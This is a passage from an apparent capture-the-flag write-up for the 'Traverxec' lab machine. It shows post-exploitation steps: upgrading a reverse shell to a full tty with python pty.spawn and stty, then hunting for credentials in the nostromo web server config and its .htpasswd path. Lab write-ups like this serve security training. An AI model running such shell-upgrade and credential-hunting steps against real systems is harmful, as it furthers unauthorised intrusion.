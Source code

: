 - After choose your poison(feel free to use all) update the tty:

  - ```bash	
    export SHELL=bash;export TERM=xterm256-color;stty rows 38 columns 116
    ```

In the end our reverse shell is look like this:

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
script /dev/null
Script started, file is /dev/null
$ export SHELL=bash;export TERM=xterm256-color;stty rows 38 columns 116
export SHELL=bash;export TERM=xterm256-color;stty rows 38 columns 116
$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$
```



## Priv Escalation 

### Lateral movement

Now we get a shell lets lookup for passwords or other **low hang fruits**. The natural choice is see what kind of files we have in **/var/nostromo** , after all, this is a **web server**:

```bash
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
cat nhttpd.conf
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```
